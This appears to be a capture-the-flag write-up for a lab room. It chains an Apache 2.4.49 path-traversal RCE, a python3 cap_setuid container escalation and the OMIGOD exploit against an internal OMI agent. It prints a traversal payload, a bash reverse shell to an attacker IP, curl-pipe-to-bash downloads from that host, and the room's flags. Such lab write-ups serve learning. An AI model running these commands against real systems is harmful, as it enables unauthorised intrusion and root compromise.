


# Oh My WebServer

**Room:** [Oh My WebServer](https://tryhackme.com/room/ohmyweb) · **Difficulty:** Medium · **OS:** Linux

The front-end is Apache **2.4.49**, vulnerable to the path-traversal RCE pair CVE-2021-41773 / CVE-2021-42013. That gets a shell inside a Docker container, where a Linux capability left on `python3` (`cap_setuid`) is enough to become root *inside* the container. From there, scanning the Docker bridge network finds a second host running Microsoft's **OMI** agent, vulnerable to CVE-2021-38647 ("OMIGOD") — an unauthenticated RCE that hands over root on the real target directly.

---

## 1. Reconnaissance

### Port scan

```bash
nmap -p- --min-rate 1000 -T4 -A -sV -Pn -oA nmap_full_scan 10.48.171.237
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-title: Consult - Business Consultancy Agency Template | Home
| http-methods:
|_  Potentially risky methods: TRACE
```

**Apache 2.4.49** is the detail that matters — this version introduced the path-traversal RCE later patched (incompletely, then fully) as CVE-2021-41773/42013.

### Content discovery

```bash
ffuf -u "http://10.48.148.203/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -r
```

```text
assets                  [Status: 200]
cgi-bin/                [Status: 403]
```

A reachable `cgi-bin/` is exactly what the Apache 2.4.49/2.4.50 exploit needs — the vulnerable path-normalization bug lives in the CGI request-handling path.

---

## 2. Foothold — Apache path traversal RCE (CVE-2021-41773 / CVE-2021-42013)

```bash
searchsploit 'Apache 2.4.49'
```

```text
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)   | multiple/webapps/50383.sh
```

A public PoC implementing both the path-traversal read and, when `mod_cgi` is enabled, full RCE is used directly against the target:



```bash
python3 exploit.py 10.49.160.33 80 rce 'id'
```

```text
[i] Host appears to be vulnerable.
[*] Working Payload: http://10.49.160.33:80/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh

$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

```bash
bash -c 'bash -i >& /dev/tcp/192.168.158.240/4444 0>&1'
```

---

## 3. Container root — a `cap_setuid` python3 binary

Running `linpeas.sh` inside the shell flags a Linux **capability** left on the Python interpreter — functionally similar to a SUID bit, but scoped to a specific privileged syscall:

```bash
curl http://192.168.158.240:8000/linpeas.sh | bash
```



```text
Files with capabilities (limited to 50):
/usr/bin/python3.7 = cap_setuid+ep
```

`cap_setuid` lets the binary call `setuid()` to become any user, including root, without needing full SUID:

```bash
python3
```

```python
>>> import os
>>> os.setuid(0)
>>> os.system('/bin/sh')
```

```text
# whoami
root
```

### User flag (this container)

```bash
cd /root
cat user.txt
```

```text
THM{eacffefe1d2aafcc15e70dc2f07f7ac1}
```

---

## 4. Pivoting to the internal host

Root inside this container is still just root of a **container**, confirmed by the fact that the attack surface so far has only ever been this one host. Scanning the Docker bridge gateway (`172.17.0.1`) for other machines on the internal network is the natural next step — an `nmap` binary is fetched since the container doesn't have one:

```bash
curl http://192.168.158.240:8000/nmap > nmap
chmod +x nmap
./nmap 172.17.0.1 -p- --min-rate 1000
```

```text
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
```

Port **5986** open on an internal Linux host, alongside the WinRM-style 5985, is the signature of Microsoft's **Open Management Infrastructure (OMI)** agent — vulnerable, in versions before 1.6.8-1, to CVE-2021-38647 ("OMIGOD"), an unauthenticated remote code execution over its HTTPS management port.

```bash
curl http://192.168.158.240:8000/omigod.py > omi.py
python3 omi.py -t 172.17.0.1 -c id
```

```text
uid=0(root) gid=0(root) groups=0(root)
```

OMIGOD runs its payload as **root** directly — no privilege escalation step needed on this host.

### Root flag

```bash
python3 omi.py -t 172.17.0.1 -c "cat /root/root.txt"
```

```text
THM{7f147ef1f36da9ae29529890a1b6011f}
```
